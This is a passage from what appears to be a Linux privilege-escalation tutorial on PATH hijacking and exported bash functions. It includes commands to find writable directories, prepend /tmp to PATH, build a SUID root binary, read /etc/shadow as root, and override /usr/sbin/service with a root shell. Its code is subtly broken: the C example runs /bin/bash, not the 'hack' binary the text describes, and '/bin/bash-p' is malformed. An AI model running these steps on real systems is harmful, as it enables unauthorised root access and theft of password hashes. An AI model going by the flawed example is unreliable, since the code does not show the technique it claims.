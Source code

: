To check permissions of all the PATH directories all at once
```sh
echo $PATH | tr ':' '\n' | while read i; do ls -ld $i; done
```
We could also check for writable folders overall with
```sh
find / -writable 2>/dev/null | cut -d '/' -f 2,3 | grep -v proc | sort -u
```

Now if non of them match, and we do not have write permissions to one of the already existing directories in PATH, then we can hopefully add a directory to which we have permissions to PATH, doing so like:
```sh
export PATH=/tmp:$PATH
```
Normally `/tmp` would be easiest as we more often than not will have permissions. We do this by using the `export` command which can set environment variables like `PATH`. So we just append the new directory to the already existing one.
At this point we can try to use and already existing script/application. In this case suppose that we found one that tries to launch a system binary for example (escalation.c):
```C
#include<unistd.h>
void main(){
setuid(0);
setgid(0);
system("/bin/bash");
}
```
This script will set itself as root and then try to run a binary called `hack`. As the path is not provided it will also look for it inside the folders listed under path. If we wanted to procede with this C example then we would have to compile it into and executable and set the SUID bit
```sh
gcc escalation.c -o escalate -w
chmod u+s escalate
```
Now we can create a file named `hack` that will have whichever command we want for it to run as root, and execute it through our `escalate` script.
```sh
echo "cat /etc/shadow" > hack
./escalate
```
Here we create it so it can show `/etc/shadow`, but we could also give it a payload to get a shell like `/bin/bash` or something else.

## Creating New Functions
In bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path. This could be used to go around the fix of using absolute paths to avoid taking advantage of the `PATH` variable
First we create a bash function with the name of the absolute path of the application that we want to hijack, make it execute a bash shell or any other command, and export the function
```shell
function /usr/sbin/service { /bin/bash-p; }
export -f /usr/sbin/service
```
Now we execute the program that uses this service and we escalate.
